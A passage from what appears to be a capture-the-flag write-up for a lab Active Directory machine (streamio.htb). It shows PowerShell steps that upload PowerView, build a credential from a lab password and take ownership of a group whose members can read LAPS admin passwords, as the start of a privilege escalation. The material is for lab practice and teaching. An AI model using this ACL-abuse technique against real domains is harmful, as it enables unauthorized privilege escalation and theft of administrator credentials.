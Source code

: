 ![](images/image07.png)

The user `jdgodd` has WriteOwner privileges over "CORE STAFF" group. Whoever is a member of CORE STAFF group can read the LAPS!
What is LAPS?
*The "Local Administrator Password Solution" (LAPS) provides management of local account passwords of domain joined computers. Passwords are stored in Active Directory (AD) and protected by ACL, so only eligible users can read it or request its reset.*

## Privilege Escalation
First lets upload [PowerView](https://github.com/PowerShellMafia/PowerSploit/blob/dev/Recon/PowerView.ps1):
```powershell
PS C:\Users\nikk37> upload PowerView.ps1
PS C:\Users\nikk37> Import-Module ./PowerView.ps1
```
*Disclaimer: For some reason only the PowerView.ps1 script from the dev branch work.*

Now we create the creds to use and set a Domain Object Owner to jdgodd:
```Powershell
PS C:\Users\nikk37> $SecPassword = ConvertTo-SecureString 'JDg0dd1s@d0p3cr3@t0r' -AsPlainText -Force

PS C:\Users\nikk37> $Cred = New-Object System.Management.Automation.PSCredential('streamio.htb\jdgodd', $SecPassword)

PS C:\Users\nikk37> Set-DomainObjectOwner -Credential $Cred -Identity "CORE STAFF" -OwnerIdentity jdgodd
```

